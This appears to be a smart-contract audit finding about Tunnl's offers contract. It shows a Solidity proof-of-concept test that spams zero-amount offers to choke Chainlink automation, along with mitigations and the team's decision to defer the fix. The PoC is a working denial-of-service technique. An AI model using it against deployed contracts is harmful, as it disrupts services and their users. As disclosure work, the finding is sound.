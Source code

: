 Now the problem is anyone can create any offers as long as they have enough allowance and there is no lower limit on the `maxPaymentUsdc` (maximum offer amount).
So technically, anyone can create any number of offers with zero offer amount as long as they have a single allowance of `flatFeeUSDC`.
These false offers will not be accepted by anyone because these will not bring any economical benefits to creators.
After all, the offers will stay Pending in the `offersToUpkeep`.
An attacker can exploit this by creating tons of false offers so that the Chainlink automation functions can not pick up the correct offer to handle (either verification or payout) and cause Denial-Of-Service.

**Impact:** We evaluate the impact to be Medium because it does not bring direct economical benefits to the attacker.

**Proof Of Concept:**
The PoC below shows anyone can create any number of offers without approving significant amount.
```solidity
    function test_CreateFalseOffers() public {
        uint32 acceptanceDurationSeconds = tunnlTwitterOffers.getConfig().minAcceptanceDurationSeconds;
        uint offerAmount = 0;
        uint maxValueUsdc = tunnlTwitterOffers.getConfig().flatFeeUsdc;

        vm.startPrank(advertiser);
        mockUsdcToken.mint(advertiser, maxValueUsdc);
        mockUsdcToken.approve(address(tunnlTwitterOffers), maxValueUsdc);//@audit-info single allowance of 5 USDC
        for(uint i = 100; i < 200; i++) {
            offerId = bytes32(i);
            tunnlTwitterOffers.createOffer(offerId, offerAmount, acceptanceDurationSeconds, 4 days);

            //@audit-info verifies the offer is created with the correct values
            assertEq(uint(getOffer(offerId).status), 0);
            assertEq(getOffer(offerId).flatFeeUsdc, tunnlTwitterOffers.getConfig().flatFeeUsdc);
            assertEq(getOffer(offerId).advertiserFeePercentageBP, tunnlTwitterOffers.getConfig().advertiserFeePercentageBP);
            assertEq(getOffer(offerId).creationDate, block.timestamp);
            assertEq(getOffer(offerId).acceptanceExpirationDate, block.timestamp + acceptanceDurationSeconds);
            assertEq(getOffer(offerId).advertiser, advertiser);
        }
        vm.stopPrank();
    }
```
**Recommended Mitigation:** There are several possible mitigations.
- Limit the number of offers that an address can hold at a time. This will prevent users to maintain bunch of offers with a small amount of allowance.
- Require the advertiser to pay flatFee on offer creation instead of offer acceptance and refund it if the offer is canceled or expired.


**Tunnl:** We first need to fix such that Pending offers are correctly added & removed from `s_offersToUpkeep`.
We have decided not to address the DoS issue prior to the mainnet Beta launch as we think the risk of a competitor attempting to attack our product is very low within the first few weeks after launch.
HOWEVER we will make a backlog task on our side to address this issue in our next iteration to prevent attacks from malicious competitors.
